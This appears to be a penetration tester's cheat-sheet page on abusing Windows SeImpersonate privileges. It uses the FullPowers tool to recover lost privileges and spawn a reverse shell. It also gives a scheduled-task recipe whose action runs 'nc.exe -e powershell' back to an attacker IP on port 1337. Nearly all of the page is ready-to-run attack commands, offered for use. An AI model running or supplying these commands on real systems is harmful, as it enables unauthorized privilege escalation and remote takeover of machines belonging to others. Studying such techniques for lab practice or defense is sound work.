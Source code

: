 ```yaml
---
title: "SeImpresonate"
date: 2024-8-2
tags: ["SeImpresonate", "Windows", "potato", "privesc", "fullpower"]
---
```


---
### Abuse #1: Recover SeImpresonate

<div>

```powershell
.\FullPowers.exe -c "whoami /priv"
```

```powershell
# Revshell
.\FullPowers.exe -c "<powershell #3 Base64>"
```

</div>

<small>*Ref: [FullPower](https://github.com/itm4n/FullPowers/releases/tag/v0.1)*</small>

### Abuse #2: Recover tokens via schedule task

<div>

```powershell
# Create a list of privileges 
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseQuotaPrivilege", "SeIncreaseWorkingSetPrivilege", "SeTimeZonePrivilege"
```

```powershell
# Create a Principal for the task 
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "<SERVICE_ACCOUNT>" -LogonType ServiceAccount -RequiredPrivilege $Privs
```

```powershell
# Create an action for the task 
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `C:\\Windows\\Tasks\\nc.exe -e powershell 10.10.14.10 1337`""
```

```powershell
# Create the task
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask" -Principal $TaskPrincipal
```

```powershell
# Start the task
Start-ScheduledTask -TaskName "SomeTask"
```

</div>
 
<br>